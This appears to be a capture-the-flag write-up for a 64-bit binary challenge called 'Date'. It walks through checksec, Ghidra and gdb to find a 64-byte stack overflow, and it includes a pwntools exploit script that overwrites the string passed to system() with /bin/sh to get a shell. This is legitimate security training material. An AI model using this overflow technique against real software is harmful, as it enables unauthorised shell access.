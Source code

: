 
# Date

```
Description
What's the date?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So all protections are enabled and its an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)

We can see there are values stored on the stack in variables and our input starts at `local_d8` pointing to a variable. We can input 0x80 charachters into fgets. We can also see that system is called with the address at `local_98`. Thats pointing to `/usr/bin/date`. So we can overflow it and change it to `/bin/sh`. 

So lets open it in gdb, we set a breakpoint at system and create a pattern of 0x80 chars:

![img](images/gdb.jpg)

Run the program and send the pattern.
It stops at our breakpoint and we can see we overflowed the value thats put into rdi for the system call:

![img](images/gdb1.jpg)

We will find the offset, its 64:

![img](images/gdb2.jpg)

Lets create a pattern of 64 chars and put 8 B after it to see if we are good:

![img](images/gdb3.jpg)

And we are, so lets create our exploit script:

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'critical'

# Start program
io = start()

# Payload

offset = 64

payload = b'A' * 64
payload += b'/bin/sh\x00'

# Send the payload
io.sendlineafter(b'date?\n', payload)

# Got Shell?
io.interactive()

```

Lets run it:

![img](images/flag.jpg)

We got our flag!
